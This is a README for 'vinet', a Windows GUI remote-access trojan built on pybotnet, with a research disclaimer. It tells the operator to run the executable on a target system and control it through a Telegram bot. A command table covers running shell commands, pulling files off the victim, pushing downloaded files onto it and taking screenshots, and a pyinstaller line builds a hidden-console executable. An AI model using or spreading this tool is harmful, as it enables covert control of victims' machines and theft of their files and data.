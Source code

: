 # vinet v0.18.6
## gui trojan for windows
### This is a graphical trojan created with [pybotnet](https://github.com/onionj/pybotnet) and tkinter 
> This project uses an older version of pybotnet

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf.


### Screenshot:
![VINET](https://github.com/onionj/vinet/blob/master/screenshot/screenshot_vinet.png "VINET GUI")

[*__Download link__*](https://github.com/onionj/vinet/releases)
    
### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot


### usage:
1. run VINET.exe on target system
2. Fill in the fields and click the Start button
3. TOKEN == telegram bot api token (Get it from the telegram @botfather) (trojan control pannel)
4. ID == telegram account number ID (get it from @userinfobot) (trojan admin chat id)
5. See Admin panel commands:

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`    `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |




compile app with pyinstaller: `pyinstaller --noconsole --onefile -i "icon.ico" vinet.py`

> if you want use this app on windows 7, compile with python 3.7
